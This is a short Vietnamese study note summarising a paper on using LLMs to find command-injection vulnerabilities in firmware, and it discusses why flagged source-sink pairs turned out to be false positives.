Nghĩa là LLM lọc lần 1 ra 14 cái cặp nguồn-đích, LLM lọc lần 2 ra còn xác nhận là 4 cặp. Và đã thử 2 handler. Handler là 1 luồng xử lí, tại sao từ 4 cặp lại chỉ còn 2 luồng, bởi vì trong 1 luồng có thể gọi hàm nhiều lần nên là bị trùng. Do vậy nên chỉ cần 2 request thôi.

Như vậy có thể thấy là tỉ lệ có vẻ rất cao ra lỗ hổng. Nhưng đấy chỉ là khi validate lại :>

# Vấn đề mà tác giả bài báo gặp phải 

Ở đây, tác giả nói rằng hệ thống chưa giải quyết được cái false positive triệt để, nghĩa là nếu mà không có cái bước validate kia thì có thể dính nhiều false positive. Chính vì vậy lại cần phải validate ở bước cuối cùng. Tách phần nhận định của LLM về Aleart với cái Validate ra. Nghĩa là không coi LLM là kết luận cuối mà phải validate lại

Trong quá trình test thì ta gặp phải vấn đề đó ở phần mà LLM phản hồi 14 tuple nhưng thực tế chỉ 4 tuple là thực sự, 10 tuple bị loại. Các vấn đề gặp phải có thể là :

+ source có lấy nhưng không đi vào sink : nghĩa là code có đọc cái tham số HTTP request nhưng cái giá trị đó không dùng ở chỗ nguy hiểm, không dùng vào hàm nguy hiểm
+ command là hằng số : nghĩa là ví dụ chương trình gọi system() nhưng chuỗi truyền vào system là cố định không phải chuỗi do người dùng
+ chỉ là redirect : request chỉ đổi giao diện HTML. Không đi vào command execution
+ dùng NVRAM/system-configured value thay vì input attacker

Thực ra thì đoạn này em cũng không chắc là vấn đề họ gặp phải thì có có coi là đã giải quyết được rồi hay không. Vì Validate lại thì có thể biết rằng nó có phải lỗ hổng hay không rồi mà nhỉ nên có thể coi là đã ok. Mà chắc không thể tính cái bước validate này.

# Đề xuất 

:>

